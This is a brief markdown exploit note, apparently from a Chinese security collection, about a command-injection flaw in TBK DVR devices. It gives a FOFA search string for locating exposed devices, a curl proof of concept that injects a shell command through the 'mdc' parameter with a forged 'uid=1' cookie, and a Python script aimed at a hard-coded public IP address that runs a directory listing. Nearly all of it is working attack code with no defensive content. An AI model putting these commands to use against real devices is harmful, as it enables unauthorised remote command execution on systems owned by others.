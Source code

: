 ## FOFA
"Location: /login.rsp"

github链接：[netsecfish/tbk_dvr_command_injection (github.com)](https://github.com/netsecfish/tbk_dvr_command_injection)

## poc
```sh
curl "http://<dvr_host>:<port>/device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=echo%3B%20<URL_ENCODED_SHELL_COMMAND>" -H "Cookie: uid=1"
```

![](image/0e4ba069c56abdeb0ce306256cb92860.png)
	
## exp1

```python
import requests

ip = "78.189.18.121"
mdc_command = "echo%3bls%20-al%20%2f"

url = f"http://{ip}/device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc={mdc_command}"

headers = {
    "Cookie": "uid=1"
}

response = requests.get(url, headers=headers)

print("Status code:", response.status_code)
print("Response body:", response.text)
```
